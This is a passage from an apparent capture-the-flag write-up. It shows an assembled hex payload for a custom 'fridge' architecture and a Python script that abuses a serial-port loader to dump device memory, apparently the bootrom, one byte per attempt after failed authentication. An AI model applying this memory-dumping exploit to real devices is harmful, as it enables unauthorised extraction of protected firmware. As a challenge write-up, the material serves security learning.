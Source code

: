 Assembling this with the fridge plugin, we get the payload:

```
$ rasm2 -a fridge -f superchain.asm
0a880530000104306b000a830a000540fb02044014b00704040002e7050002e7041002e7051002e7042002e7052002e7043002e7053002e7044002e70540ee68045002ff0550006604600000056000000100
```

### The outer logic (in rushed python)

```python
import serial
import binascii
import sys
import time

dump_from = 0
dump_to = 0x4000

s = serial.Serial('/dev/ttyUSB0', timeout=100)

prompt = "Loader> Authentication failed\r\nLoader> Provide bootrom (hex encoded)\r\nLoader> "
oops = "Oops!\r\n"

s.flush()
s.baudrate = '19200'
s.flush()
payload = "0a880530000104306b000a830a000540fb02044014b00704040002e7050002e7041002e7051002e7042002e7052002e7043002e7053002e7044002e70540%02x68045002%02x0550006604600000056000000100"
window = []
size = len(prompt)
addr = dump_from
hist = 0
every = ''
noise = binascii.unhexlify('1b5b313b31481b5b324a')
while addr < dump_to:
    byte = s.read(1)
    hist += 1
    window.append(byte)
    every += byte
    if len(window) > size:
        window = window[-size:]
    wstr = ''.join(window)
    if wstr.find(prompt) >= 0:
        out = every.replace(wstr, '').replace(noise, '') + '\0'
        sys.stdout.write(out[0])
        every = ''
        window = []
        s.write((payload % ((addr & 0xff00) >> 8, addr & 0xff)) + '\r\n')
        s.flush()
        addr += 1
        hist = 0
```
